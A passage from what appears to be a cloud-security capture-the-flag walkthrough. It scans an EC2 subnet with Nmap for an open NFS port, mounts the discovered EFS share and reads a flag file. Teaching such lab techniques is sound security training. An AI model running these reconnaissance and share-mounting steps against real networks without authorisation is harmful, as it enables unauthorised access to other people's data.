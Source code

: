 
* Looking at the EC2 instances we see the Admin EC2 only has a **single port open**, we Nmap scan this port.

```bash
nmap -Pn -p 2049 --open 10.10.10.0/24
```

<p align="center">
  <img src="/images/cloud/ssm_nmap.png">
</p>

* **Mount** discovered EC2.

```bash
cd /mnt
sudo mkdir efs 
sudo mount -t nfs -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport {EFS_IP}:/ efs
```

<p align="center">
  <img src="/images/cloud/mnt_efs.png">
</p>

* Read the **flag.txt** using the following command.

```bash
cat flag.txt
```

<p align="center">
  <img src="/images/cloud/cat_ecs_efs_flag.png">
</p>

**Scenario:** CICD
